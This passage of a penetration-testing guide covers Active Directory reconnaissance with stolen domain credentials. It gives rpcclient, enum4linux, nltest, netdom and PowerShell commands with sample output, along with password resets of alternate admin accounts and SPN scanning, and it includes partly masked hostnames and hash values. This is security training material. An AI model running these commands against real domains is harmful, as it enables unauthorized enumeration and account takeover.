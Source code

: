 *****************************************************
Infrastructure PenTest Series : Part 3 - Exploitation
*****************************************************

After **vulnerability analysis** probably, we would have compromised a machine to have domain user credentials or administrative credentials. This blog presents information about

* :ref:`active-directory-reconnaissance` with Domain User rights. Once, we have access to **credentials of a domain user of windows domain**, we can utilize the credentials to do windows **active directory enumeration** such as figuring out the domain controllers, users, machines, trust etc. This post looks into the various methods which are available to do the enumeration such as rpclient, enum4linux, nltest, netdom, powerview, bloodhound, adexplorer, Jexplorer, Remote Server Administration Tools, Microsoft Active Directory Topology Diagrammer, reconnaissance using powershell etc.

* :ref:`remote-code-execution-methods` : Once we have **administrative credentials** there are multiple ways to get a **execute remote commands** on the remote machine such winexe, crackmapexec, impacket psexec, smbexec, wmiexec, Metasploit psexec, Sysinternals psexec, task scheduler, scheduled tasks, service controller (sc), remote registry, WinRM, WMI, DCOM, Mimikatz Pass the hash/ Pass the ticket, remote desktop etc. We have a look over all the methods with possible examples.

* :ref:`useful-stuff` : Also, we would have a quick look how to add/ remove/ a local/ domain user, add/ remove a local user to administrator group, accessing remote windows machines from windows/ linux.

* :ref:`appendix-I-interesting-stories` : Presented the links of interesting blogs which might be helpful in exploitation such as blogs targeting Domain Administrator, etc.

Did we miss something? Please send us a pull request and we will add it. 

.. _active-directory-reconnaissance:

Active Directory Reconnaissance
===============================

rpclient
--------

eskoudis presents great amount of information at `Plundering Windows Account Infor via Authenticated SMB Session <https://pen-testing.sans.org/blog/2013/07/24/plundering-windows-account-info-via-authenticated-smb-sessions>`_.  carnal0wnage have written `Enumerating user accounts on linux and OSX <http://carnal0wnage.attackresearch.com/2007/07/enumerating-user-accounts-on-linux-and.html>`_ and BlackHills have written `Password Spraying and Other Fun with RPC Client <http://www.blackhillsinfosec.com/?p=4645>`_ Most of the stuff has been taken from the above three.

The below commands tell how to figure out

Connection
^^^^^^^^^^

::

 rpcclient -U xxxxs.hxxxx.net/mlxxxxh 10.0.65.103 

Version of the target Windows machine
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::
  
 rpcclient $> srvinfo
 10.0.65.103    Wk Sv BDC Tim NT     
 platform_id     :       500
 os version      :       6.3
 server type     :       0x801033

Enum commands
^^^^^^^^^^^^^

::

 rpcclient $> enum

 enumalsgroups  enumdomains    enumdrivers    enumkey     enumprivs
 enumdata       enumdomgroups  enumforms      enumports   enumtrust
 enumdataex     enumdomusers   enumjobs       enumprinter

Current domain
^^^^^^^^^^^^^^

::
  
  enumdomains 
  name:[xxxx] idx:[0x0]
  name:[Builtin] idx:[0x0]

Enum Domain info
^^^^^^^^^^^^^^^^

::

  rpcclient $> querydominfo 
  Domain               :  xxxx
  Server               :  HMC_PDC-TEMP
  Comment              :      
  Total Users          :  9043
  Total Groups         :  0
  Total Aliases        :  616
  Sequence No          :  1
  Force Logoff         : -1
  Domain Server State  :  0x1
  Server Role          :  ROLE_DOMAIN_BDC
  Unknown 3           :    0x1

Enum Domain users
^^^^^^^^^^^^^^^^^

::
   
  rpcclient $> enumdomusers 
  user:[administrator] rid:[0x1f4]
  user:[Guest] rid:[0x1f5]
  user:[krbtgt] rid:[0x1f6]
  user:[_STANDARD] rid:[0x3ee]
  user:[Install] rid:[0x3fa]
  user:[sko] rid:[0x43a]
  user:[cap] rid:[0x589]
  user:[zentrale] rid:[0x67f]
  user:[dbserver] rid:[0x7d9]
  user:[JVOO] rid:[0x7fa]
  user:[Standard HMC User Te] rid:[0x8a0]
  user:[event] rid:[0x8d5]
  user:[remote] rid:[0x9ea]
  user:[pda-vis1] rid:[0xb65]
  user:[TestUser] rid:[0xc46]
  user:[oeinstall] rid:[0x1133]
  user:[repro] rid:[0x13c3]

Enum Domain groups
^^^^^^^^^^^^^^^^^^

::

  rpcclient $> enumdomgroups 
  group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
  group:[Domain Admins] rid:[0x200]
  group:[Domain Users] rid:[0x201]
  group:[Domain Guests] rid:[0x202]
  group:[Domain Computers] rid:[0x203]
  group:[Domain Controllers] rid:[0x204]
  group:[Schema Admins] rid:[0x206]
  group:[Enterprise Admins] rid:[0x207]
  group:[Group Policy Creator Owners] rid:[0x208]
  group:[Read-only Domain Controllers] rid:[0x209]
  group:[Cloneable Domain Controllers] rid:[0x20a]
  group:[Protected Users] rid:[0x20d]
  group:[xxxx Users] rid:[0x4d8]
  group:[IC Members] rid:[0x50d]
  group:[Event Management] rid:[0x8d7]
  group:[SMSInternalCliGrp] rid:[0x9f5]
  group:[IT Support] rid:[0x105b]

Enum Group Information and Group Membership
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

  rpcclient $> querygroup 0x200
  Group Name:     Domain Admins
  Description:    Designated administrators of the domain
  Group Attribute:7
  Num Members:16


::

  rpcclient $> querygroupmem 0x200
  rid:[0x2227] attr:[0x7]
  rid:[0x3601] attr:[0x7]
  rid:[0x36aa] attr:[0x7]
  rid:[0x36e0] attr:[0x7]
  rid:[0x3c23] attr:[0x7]
  rid:[0x5528] attr:[0x7]
  rid:[0x1f4]  attr:[0x7]
  rid:[0x363b] attr:[0x7]
  rid:[0x573e] attr:[0x7]
  rid:[0x56bc] attr:[0x7]
  rid:[0x5e5e] attr:[0x7]
  rid:[0x7fe1] attr:[0x7]
  rid:[0x86d9] attr:[0x7]
  rid:[0x9367] attr:[0x7]
  rid:[0x829c] attr:[0x7]
  rid:[0xa26e] attr:[0x7]

Enumerate specific User/ computer information by RID
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

  rpcclient $> queryuser 0x3601
  User Name   :   dummy_s
  Full Name   :   Dummy User
  Home Drive  :   
  Dir Drive   :   
  Profile Path:   
  Logon Script:   
  Description :   E 5.5.2008 Admin
  Workstations:   
  Comment     :   
  Logon Time               :      Tue, 24 Jan 2017 19:28:14 IST
  Logoff Time              :      Thu, 01 Jan 1970 05:30:00 IST
  Kickoff Time             :      Thu, 14 Sep 30828 08:18:05 IST
  Password last set Time   :      Fri, 21 Nov 2008 02:34:34 IST
  Password can change Time :      Fri, 21 Nov 2008 02:34:34 IST
  Password must change Time:      Thu, 14 Sep 30828 08:18:05 IST

Domain Password Policy
^^^^^^^^^^^^^^^^^^^^^^

::

 rpcclient $> getdompwinfo 
 min_password_length: 8
 password_properties: 0x00000000

User password policies
^^^^^^^^^^^^^^^^^^^^^^

::

  rpcclient $> getusrdompwinfo 0x3601
  min_password_length: 8
  &info.password_properties: 0x433e6584 (1128162692)
  0: DOMAIN_PASSWORD_COMPLEX  
  0: DOMAIN_PASSWORD_NO_ANON_CHANGE
  1: DOMAIN_PASSWORD_NO_CLEAR_CHANGE
  0: DOMAIN_PASSWORD_LOCKOUT_ADMINS
  0: DOMAIN_PASSWORD_STORE_CLEARTEXT
  0: DOMAIN_REFUSE_PASSWORD_CHANGE

Local Users
^^^^^^^^^^^

::

 lsaenumsid
 S-1-5-21-1971769256-327852233-3012798916-1014 Example\ftp_user (1)
 S-1-5-21-1971769256-327852233-3012798916-1000 Example\example_user (1)

::

 lookupsid S-1-5-21-1971769256-327852233-3012798916-1014
 S-1-5-21-1971769256-327852233-3012798916-1014 Example\ftp_user (1)

Reset AD user password
^^^^^^^^^^^^^^^^^^^^^^

As Mubix explained in `Reset AD User Password with Linux <https://room362.com/post/2017/reset-ad-user-password-with-linux/>`_. Often we have the credentials of limited administrative accounts such as IT or helpdesk. Sometimes, These accounts have an ability reset the password. This can be achieved in by using rpcclient in linux box provided smbclient and pass-the-hash package should be installed.

setuserinfo2 command can be used in order to change the password.

::

 rpcclient $> setuserinfo2
 Usage: setuserinfo2 username level password [password_expired]
 result was NT_STATUS_INVALID_PARAMETER

.. Note :: we won't be able to change the password of users with AdminCount = 1 (Domain Admins and other higher privileged accounts).

::

 rpcclient $> setuserinfo2 ima-domainadmin 23 'ASDqwe123'
 result: NT_STATUS_ACCESS_DENIED
 result was NT_STATUS_ACCESS_DENIED
 rpcclient $>

Users having alternate admin accounts can be easily targeted.

::

 rpcclient $> setuserinfo2 adminuser 23 'ASDqwe123'
 rpcclient $>

.. Note :: The number 23 came from `MSDN article USER_INFORMATION_CLASS <https://msdn.microsoft.com/en-us/library/cc245617.aspx>`__.  The SAMPR_USER_INTERNAL4_INFORMATION structure holds all attributes of a user, along with an encrypted password.

This can be done using the net command as well but we need to install the samba-common-bin in our machine.

::

 root@kali:~# net rpc password adminuser -U helpdesk -S 192.168.80.10
 Enter new password for adminuser:
 Enter helpdesk's password:
 root@kali:~#

Enum4linux
----------

Simple wrapper around the tools in the samba package to provide similar functionality to enum.exe (formerly from www.bindview.com).

Usage
^^^^^

::

 Usage: ./enum4linux.pl [options] ip

 Options are (like "enum"):
     -U        get userlist
     -M        get machine list*
     -S        get sharelist
     -P        get password policy information
     -G        get group and member list
     -d        be detailed, applies to -U and -S
     -u user   specify username to use (default "")  
     -p pass   specify password to use (default "")   


 Additional options:
    -a        Do all simple enumeration (-U -S -G -P -r -o -n -i).
              This option is enabled if you don't provide any other options.
    -h        Display this help message and exit
    -r        enumerate users via RID cycling
    -R range  RID ranges to enumerate (default: 500-550,1000-1050, implies -r)
    -K n      Keep searching RIDs until n consecutive RIDs don't correspond to a username.  Implies RID range ends at 999999. Useful against DCs.
    -l        Get some (limited) info via LDAP 389/TCP (for DCs only)
    -s file   brute force guessing for share names
    -k user   User(s) that exists on remote system (default: administrator,guest,krbtgt,domain admins,root,bin,none)
              Used to get sid with "lookupsid known_username"
    	      Use commas to try several users: "-k admin,user1,user2"
    -o        Get OS information
    -i        Get printer information
    -w wrkg   Specify workgroup manually (usually found automatically)
    -n        Do an nmblookup (similar to nbtstat)
    -v        Verbose.  Shows full commands being run (net, rpcclient, etc.)

Example
^^^^^^^

::

 enum4linux -P -d xxxx.abcxxx.net -u mluxxxx -p threxxxx 10.0.65.103

Active Directory Explorer (ADExplorer)
--------------------------------------

As per the TechNet article `Active Directory Explorer (AD Explorer) <https://technet.microsoft.com/en-us/sysinternals/adexplorer.aspx>`_ is an advanced Active Directory (AD) viewer and editor. We can use AD Explorer to easily navigate an AD database, define favorite locations, view object properties and attributes without having to open dialog boxes, edit permissions, view an object's schema, and execute sophisticated searches that you can save and re-execute. 

`Sally Vandeven <https://www.blackhillsinfosec.com/?team=sally-vandeven>`_ has written a brilliant article on `Domain Goodness – How I Learned to LOVE AD Explorer <https://www.blackhillsinfosec.com/?p=5938>`_ Must read!

JXplorer
--------

`JXplorer <http://jxplorer.org/>`_ is a cross platform LDAP browser and editor. It is a standards compliant general purpose LDAP client that can be used to search, read and edit any standard LDAP directory, or any directory service with an LDAP or DSML interface.

Remote Server Administration Tools 
----------------------------------

Active Directory Domain Services (AD DS) Tools and Active Directory Lightweight Directory Services (AD LDS) Tools includes Active Directory Administrative Center; Active Directory Domains and Trusts; Active Directory Sites and Services; Active Directory Users and Computers; ADSI Edit; DCPromo.exe; LDP.exe; NetDom.exe; NTDSUtil.exe; RepAdmin.exe; Active Directory module for Windows PowerShell; DCDiag.exe; DSACLs.exe; DSAdd.exe; DSDBUtil.exe; DSMgmt.exe; DSMod.exe; DSMove.exe; DSQuery.exe; DSRm.exe; GPFixup.exe; KSetup.exe; KtPass.exe; NlTest.exe; NSLookup.exe; W32tm.exe.

Active Directory Administrative Center; Active Directory Domains and Trusts; Active Directory Sites and Services; Active Directory Users and Computers; ADSI Edit;  are GUI tools. These can be installed by installing `Remote Server Administration Tools <https://support.microsoft.com/en-in/help/2693643/remote-server-administration-tools-rsat-for-windows-operating-systems>`_ 

nltest
------

`Nltest <https://technet.microsoft.com/en-us/library/cc731935(v=ws.11).aspx>`_ is a command-line tool to perform network administrative tasks. We could figure out the Domain Controllers/ Domain Trusts using it. It is built into Windows Server 2008 and Windows Server 2008 R2. It is available if you have the AD DS or the AD LDS server role installed. It is also available if you install the Active Directory Domain Services Tools that are part of the Remote Server Administration Tools (RSAT).

Usage
^^^^^

::

 nltest /?
 Usage: nltest [/OPTIONS]


    /SERVER:<ServerName> - Specify <ServerName>

    /QUERY - Query <ServerName> netlogon service
    /DCLIST:<DomainName> - Get list of DC's for <DomainName>
    /DCNAME:<DomainName> - Get the PDC name for <DomainName>
    /DSGETDC:<DomainName> - Call DsGetDcName /PDC /DS /DSP /GC /KDC /TIMESERV /GTIMESERV /WS /NETBIOS /DNS /IP /FORCE /WRITABLE /AVOIDSELF /LDAPONLY /BACKG /DS_6
        /TRY_NEXT_CLOSEST_SITE /SITE:<SiteName> /ACCOUNT:<AccountName> /RET_DNS /RET_NETBIOS
    /DNSGETDC:<DomainName> - Call DsGetDcOpen/Next/Close /PDC /GC /KDC /WRITABLE /LDAPONLY /FORCE /SITESPEC
    /DSGETFTI:<DomainName> - Call DsGetForestTrustInformation /UPDATE_TDO
    /DSGETSITE - Call DsGetSiteName
    /DSGETSITECOV - Call DsGetDcSiteCoverage
    /DSADDRESSTOSITE:[MachineName] - Call DsAddressToSiteNamesEx        /ADDRESSES:<Address1,Address2,...>
    /PARENTDOMAIN - Get the name of the parent domain of this machine
    /WHOWILL:<Domain>* <User> [<Iteration>] - See if <Domain> will log on <User>
    /FINDUSER:<User> - See which trusted domain will log on <User>
    /USER:<UserName> - Query User info on <ServerName>
    /TIME:<Hex LSL> <Hex MSL> - Convert NT GMT time to ascii
    /LOGON_QUERY - Query number of cumulative logon attempts
    /DOMAIN_TRUSTS - Query domain trusts on <ServerName>
        /PRIMARY /FOREST /DIRECT_OUT /DIRECT_IN /ALL_TRUSTS /V

**Examples**


Verify domain controllers in a domain
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::
 
  nltest /dclist:xxx.example.net
  Get list of DCs in domain 'xxx.example.net' from '\\ABCDEFG.xxx.example.net'.
        ABCDEFG1.xxx.example.net        [DS] Site: XX-SriLanka
        ABCDEFG2.xxx.example.net        [DS] Site: XX-India
        ABCDEFG5.xxx.example.net [PDC]  [DS] Site: XX-Bangladesh
  The command completed successfully

Advanced information about users
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

  nltest /user:"TestAdmin"
  User: User1
  Rid: 0x3eb
  Version: 0x10002
  LastLogon: 2ee61c9a 01c0e947 = 5/30/2001 13:29:10
  PasswordLastSet: 9dad5428 01c0e577 = 5/25/2001 17:05:47
  AccountExpires: ffffffff 7fffffff = 9/13/30828 19:48:05
  PrimaryGroupId: 0x201
  UserAccountControl: 0x210
  CountryCode: 0x0
  CodePage: 0x0
  BadPasswordCount: 0x0
  LogonCount: 0x33
  AdminCount: 0x1
  SecurityDescriptor: 80140001 0000009c 000000ac 00000014 00000044 00300002 000000
  02 0014c002 01050045 00000101 01000000 00000000 0014c002 000f07ff 00000101 05000
  000 00000007 00580012 00000003 00240000 00020044 00000501 05000000 00000015 22cd
  b7b4 7112b3f1 2b3be507 000003eb 00180000 000f07ff 00000201 05000000 00000020 000
  00220 00140000 0002035b 00000101 01000000 00000000 00000201 05000000 00000020 00
  000220 00000201 05000000 00000020 00000220
   AccountName: User1
  Groups: 00000201 00000007
  LmOwfPassword: fb890c9c 5c7e7e09 ee58593b d959c681
  NtOwfPassword: d82759cc 81a342ac df600c37 4e58a478
  NtPasswordHistory: 00011001
  LmPasswordHistory: 00010011
  The command completed successfully

Determine the PDC emulator for a domain
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

  nltest /dcname:fourthcoffee
  PDC for Domain fourthcoffee is \\fourthcoffee-dc-01
  The command completed successfully

Show trust relationships for a domain
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Returns a list of trusted domains. /Primary /Forest /Direct_Out /Direct_In /All_Trusts /v.

The following list shows the values that you can use to filter the list of domains.

* /Primary: Returns only the domain to which the computer account belongs.

* /Forest: Returns only those domains that are in the same forest as the primary domain.

* /Direct_Out: Returns only the domains that are explicitly trusted with the primary domain.

* /Direct_In: Returns only the domains that explicitly trust the primary domain.

* /All_Trusts: Returns all trusted domains.

* /v: Displays verbose output, including any domain SIDs and GUIDs that are available.

::

  nltest /domain_trusts 
 
  List of domain trusts:
     0: ABC abc.example.net (NT 5) (Forest: 17) (Direct Outbound) (Direct Inbound)
     1: DEF def.example.net (NT 5) (Forest: 17) (Direct Outbound) (Direct Inbound)
     2: IJK IJK.NET (NT 5) (Direct Inbound) ( Attr: 0x8 )
     3: LMN LMH.net (NT 5) (Direct Outbound) ( Attr: 0x18 )
     4: APP app.example.net (NT 5) (Forest: 17) (Direct Outbound) (Direct Inbound) ( Attr: 0x20 )

Thanks to `Tanoy Bose <https://twitter.com/tanoybose>`_ for informing me about this. Cheers Bose.

netdom
------

netdom: netdom is a command-line tool that is built into Windows Server 2008 and Windows Server 2008 R2. It is available if you have the Active Directory Domain Services (AD DS) server role installed. It is also available if you install the Active Directory Domain Services Tools that are part of the Remote Server Administration Tools (RSAT). More information available at `Netdom query <https://technet.microsoft.com/en-us/library/cc835089(v=ws.11).aspx>`_. 

Usage
^^^^^

::

  netdom query {/d: | /domain:}<Domain> [{/s: | /server:}<Server>] [{/ud: | /userd:}[<Domain>\]<User> {/pd: | /passwordd}{<Password>|*}] [/verify] [/reset] [/direct] {WORKSTATION|SERVER|DC|OU|PDC|FSMO|TRUST} [{/help | /?}]

  Specifies the type of list to generate. The following list shows the possible objects:
  WORKSTATION: Queries the domain for the list of workstations.
  SERVER: Queries the domain for the list of servers.
  DC   : Queries the domain for the list of domain controllers.
  OU   : Queries the domain for the list of OUs under which the user that you specify can create a computer object.
  PDC  : Queries the domain for the current primary domain controller.
  FSMO : Queries the domain for the current list of operations master role holders. These role holders are also known as flexible single master operations (FSMO).
  TRUST: Queries the domain for the list of its trusts.

**Examples**

DC
^^

Queries the domain for the list of workstations:

:: 

  PS C:\> netdom query /domain example.net DC
  List of domain controllers with accounts in the domain:
  
  xxxxDC12
  xxxxDC11
  xxxxDC04
  xxxxDC03
  The command completed successfully.

PDC
^^^

Queries the domain for the current primary domain controller

::
 
  PS C:\> netdom query /domain example.net PDC
  Primary domain controller for the domain:
  
  xxxxDC03.example.net
  The command completed successfully.

FSMO
^^^^
Queries the domain for the current list of operations master role holders.  

::

  PS C:\> netdom query /domain example.net FSMO
  Schema master               xxxxDC03.example.net
  Domain naming master        xxxxDC03.example.net
  PDC                         xxxxDC03.example.net
  RID pool manager            xxxxDC03.example.net
  Infrastructure master       xxxxDC03.example.net
  The command completed successfully. 

TRUST
^^^^^
Queries the domain for the list of its trusts

::

  PS C:\> netdom query /domain example.net TRUST
  Direction Trusted\Trusting domain      Trust type
  ========= =======================      ==========   
  
  <->       xxxx.xxxxxx.net              Direct
  <->       xxxx.example.net             Direct
  <->       XX.XXXxXX.NET                Direct

OU
^^

Queries the domain for the list of OUs under which the user that you specify can create a computer object.

::

  PS C:\> netdom query /domain abc.example.net OU
  List of Organizational Units within which the specified user can create a
  machine account:
  
  OU=Domain Controllers,DC=abc,DC=example,DC=net
  OU=ABC-Admin,DC=abc,DC=example,DC=net
  OU=ServiceAccounts,OU=ABC-Admin,DC=abc,DC=example,DC=net
  OU=Users,OU=ABC-Admin,DC=abc,DC=example,DC=net
  OU=Groups,OU=ABC-Admin,DC=abc,DC=example,DC=net
  OU=Service Accounts,DC=abc,DC=example,DC=net
  OU=Servers,OU=ABC-Admin,DC=abc,DC=example,DC=net
  DC=abc,DC=example,DC=net
  The command completed successfully.

SERVER/ WORKSTATION
^^^^^^^^^^^^^^^^^^^

Queries the domain for the list of servers/ workstations

::   

  PS C:\> netdom query /domain abc.example.net WORKSTATION
  List of workstations with accounts in the domain:

  ABCDC02      ( Workstation or Server )
  ABCDC01      ( Workstation or Server )
  ABCDC03      ( Workstation or Server )
  ABCDC04      ( Workstation or Server )
  BSKMACDB62   ( Workstation or Server )

  The command completed successfully.

  PS C:\>

Microsoft Active Directory Topology Diagrammer
----------------------------------------------

The `Microsoft Active Directory Topology Diagrammer <https://www.microsoft.com/en-in/download/details.aspx?id=13380>`_ reads an Active Directory configuration using LDAP, and then automatically generates a Visio diagram of your Active Directory and /or your Exchange Server topology. The diagrams may include domains, sites, servers, organizational units, DFS-R, administrative groups, routing groups and connectors and can be changed manually in Visio if needed.


AD Reconnaissance with PowerShell
----------------------------------

Sean Metcalf has written an awesome blog regarding the `Active Directory Recon without Admin Rights <https://adsecurity.org/?p=2535>`_ Most of the below stuff has been directly taken from his blog.

The enumeration of the active directory can also be carried forward using the normal domain user account. After gathering the domain user credentials launch the powershell by the following command on the command prompt.

:: 

 C:\> Powershell -nop -exec bypass -noexit

Forest Information
^^^^^^^^^^^^^^^^^^

The current forest information can be gathered by using the following powershell code

:: 

 PS C:\> [System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()

 Name                  : ABC.com
 Sites                 : {Default-First-Site-Name}
 Domains               : {ABC.com}
 GlobalCatalogs        : {WIN-OK0HIC2UCIH.ABC.com}
 ApplicationPartitions : {DC=DomainDnsZones,DC=ABC,DC=com, DC=ForestDnsZones,DC=
                         ABC,DC=com}
 ForestMode            : Windows2008R2Forest
 RootDomain            : ABC.com
 Schema                : CN=Schema,CN=Configuration,DC=ABC,DC=com
 SchemaRoleOwner       : WIN-OK0HIC2UCIH.ABC.com
 NamingRoleOwner       : WIN-OK0HIC2UCIH.ABC.com


Domain Information
^^^^^^^^^^^^^^^^^^

The current domain information to which the domain user is a part can be easily gathered by issuing the following powershell code

::

 PS C:\> [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

 Forest                  : ABC.com
 DomainControllers       : {WIN-OK0HIC2UCIH.ABC.com}
 Children                : {}
 DomainMode              : Windows2008R2Domain
 Parent                  :
 PdcRoleOwner            : WIN-OK0HIC2UCIH.ABC.com
 RidRoleOwner            : WIN-OK0HIC2UCIH.ABC.com
 InfrastructureRoleOwner : WIN-OK0HIC2UCIH.ABC.com
 Name                    : ABC.com

Forest Trusts
^^^^^^^^^^^^^

The trust between the present forests can be obtained by the following powershell code

:: 

 $ForestRootDomain = ‘lab.adsecurity.org’
 ([System.DirectoryServices.ActiveDirectory.Forest]::GetForest((New-Object System.DirectoryServices.ActiveDirectory.DirectoryContext(‘Forest’, $ForestRootDomain)))).GetAllTrustRelationships()


Domain Trusts
^^^^^^^^^^^^^

The trusts relationship between the current domain and associated domain can be enumerated by the following

::

 PS C:\> ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()

By gathering this information, An attacker can determine the attack surface area by residing in current domain.

Forest Global Catalogs 
^^^^^^^^^^^^^^^^^^^^^^

:: 

 PS C:\> [System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest().GlobalCatalogs

.. Note :: Typically every DC is also a Global catalog 

Enterprise Services without scanning of Network
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The services offered by the particular can also be identified using a simple powershell code. This type of information gathering is a stealthy approach as the service scanning of network may sometimes trigger the alarm. This type of approach is carried out by scanning the SPN (Service Principal Names). The information related to RDP enabled workstations, WinRM Enabled, Exchange servers, SQL servers etc. can be enumerated.

::

 PS C:\> get-adcomputer -filter {ServicePrincipalName -like “*TERMSRV*”} -Properties OperatingSystem,OperatingSystemVersion,OperatingSystemServicePack,
 PasswordLastSet,LastLogonDate,ServicePrincipalName,TrustedForDelegation,TrustedtoAuthForDelegation

.. Note :: Both the computers and users (Service accounts) are to be targeted in order to determine the Enterprise services.

SPN-Scanning
^^^^^^^^^^^^

Microsoft states that  "A service principal name (SPN) is the name by which a client uniquely identifies an instance of a service."
using the SPN scanning we identify the common servers such as IIS, SQL Server, and LDAP. Mostly, the convention of the SPN is formatted as SERVICE/HOST but sometimes the port no. associated is also given such as SERVICE/HOST:PORT.

::

 DNS/win2008k001.ABC.com   MSSQLSvc/win2008k002.ABC.com:1600



The above example shows that if the Domain Account is used to run the DNS and SQL services on ABC.com the SPN entries would be the same.
Here we can use `ADFind.exe <http://www.joeware.net/freetools/tools/adfind/>`__ to list all the SQL server instances registered on a domain by using the code 

::

 C: >Adfind.exe -f "ServicePrincipalName=MSSQLSvc*"  

we can also use setspn.exe (comes with the windows server 2008) can be used to lookup the SPNs for a particular user.

::

 C: >setspn.exe -l "UserName"

SPN Scanning using Powershell
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Scott Sutherland has written about SPN scanning techniques at `Faster Domain Esclation using LDAP <https://blog.netspi.com/faster-domain-escalation-using-ldap/>`_ .The `Get-SPN <https://github.com/nullbind/Powershellery/blob/master/Stable-ish/Get-SPN/Get-SPN.psm1>`__ Powershell module provides us to quickly search LDAP for accounts related to specific groups, users or SPN service name. Once Downloaded the script run the following command in a command prompt in order to install it for the current session.

:: 

 C:\> Powershell -nop -exec bypass -noexit (change the directory pointing towards the downloaded location)
 PS C:\> Import-Module .\Get-SPN.psm1

Find All Servers where Domain Admins are Registered to Run Services. If we are using the Domain User or local system from a particular Domain computer use the following command

::

 Get-SPN -type group -search "Domain Admins" -List yes | Format-Table -Autosize

for a non domain system with domain credentials we can use the command below 

::

 Get-SPN  -type group -search "Domain Admins" -List yes -DomainController 192.168.1.100 -Credential domainuser | Format-Table -Autosize

Find all registered SQL Servers, Dcom, dnscache etc.
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^


for identifying the services using the Domain User or localsystem from a particular Domain computer use the following command

::

 Get-SPN  -type service -search "MSSQLSvc*" -List yes | Format-Table -Autosize

for other than Servers, below is a list of standard SPN service names.

::

 alerter,appmgmt,browser,cifs,cisvc,clipsrv,dcom,dhcp,dmserver,dns,dnscache,eventlog,eventsystem,fax,
 http,ias,iisadmin,messenger,msiserver,mcsvc,netdde,netddedsm,netlogon,netman,nmagent,oakley,plugplay,policyagent,
 protectedstorage,rasman,remoteaccess,replicator,rpc,rpclocator,rpcss,rsvp,samss,scardsvr,scesrv,schedule,scm,seclogon,
 snmp,spooler,tapisrv,time,trksvr,trkwks,ups,w3svc,wins,www 

To find All the ServicePrincipalName Entries for Domain Users Matching String by executing the command as domain user or LocalSystem from a domain computer then you can use the command below.

::

